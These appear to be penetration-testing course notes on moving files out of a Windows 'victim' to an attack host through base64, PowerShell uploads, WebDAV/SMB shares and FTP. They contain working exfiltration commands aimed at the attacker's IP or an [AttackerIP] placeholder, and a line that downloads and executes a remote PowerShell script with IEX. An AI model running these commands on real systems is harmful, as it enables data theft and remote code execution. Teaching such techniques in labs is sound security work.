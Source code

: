 # PowerShell
## PowerShell Base64 Encode & Decode
let's do the reverse operation and encode a file so we can decode it on our attack host.
### Encode File Using PowerShell
```
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
```
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.
### Decode Base64 String in Linux
```
echo <hashValue> | base64 -d > hosts
```
```
md5sum hosts
```
## PowerShell Web Uploads
### Webserver on our machine
```
python3 -m uploadserver
```
use a PowerShell script PSUpload.ps1 which uses Invoke-RestMethod to perform the upload operations. The script accepts two parameters -File, which we use to specify the file path, and -Uri, the server URL where we'll upload our file. 
```
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
# SMB Uploads
Commonly enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attacks. An alternative is to run SMB over HTTP with WebDav. 
WebDAV (RFC 4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The WebDAV protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. WebDAV can also use HTTPS.
## Configuring WebDav Server
### Installing WebDav Python modules
```
sudo pip3 install wsgidav cheroot
```
After installing them, we run the wsgidav application in the target directory.
### Using the WebDav Python module
```
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
### Connecting to the Webdav Share from Windows (Victim) machine
```
dir \\[AttackerIP}\sharefolder
```
## Uploading Files using SMB
### Open SMB share using impacket
```
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
```
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

# FTP Uploads
## Start our FTP server
```
sudo python3 -m pyftpdlib --port 21 --write
```
use the PowerShell upload function to upload a file to our FTP Server
### PowerShell Upload File
```
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://[AttackerIP]/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

